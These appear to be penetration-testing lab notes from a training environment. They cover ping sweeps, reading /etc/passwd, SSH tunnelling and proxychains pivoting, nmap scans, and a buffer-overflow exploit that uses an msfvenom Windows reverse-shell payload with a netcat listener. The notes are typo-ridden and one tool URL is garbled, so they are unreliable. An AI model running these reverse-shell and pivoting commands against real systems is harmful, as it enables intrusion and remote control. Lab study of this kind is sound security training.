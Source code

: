 for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done

Ping same network for new device

Cat /etc/hosts

Cat /etc/passwd

Move dynamic to Aaron : ssh Aaron@localhost –p 50511 –D 9050 -NT

Linoops proxychain nmap –Pn192.168.28.179

RDP from Aaron to LRoth

Student@lin-ops ssh Aaron@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f pythin

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Patternt length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python

Nc –lvp 4444

Proxychains ./WBF.py

*******************************************************************************

Perform Reconnaissance

1. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.

2. Actively scan and interact with target to find potential attack vectors.

student@lin-ops:~$ for i in {1..254} ;do (ping -c 1 10.50.20.$i | grep "bytes from" &) ;done

Step1: Perform Nmap scan on the target from lin-ops

student@lin-ops:~$ sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080

![Alt Text](images/image_1.png)
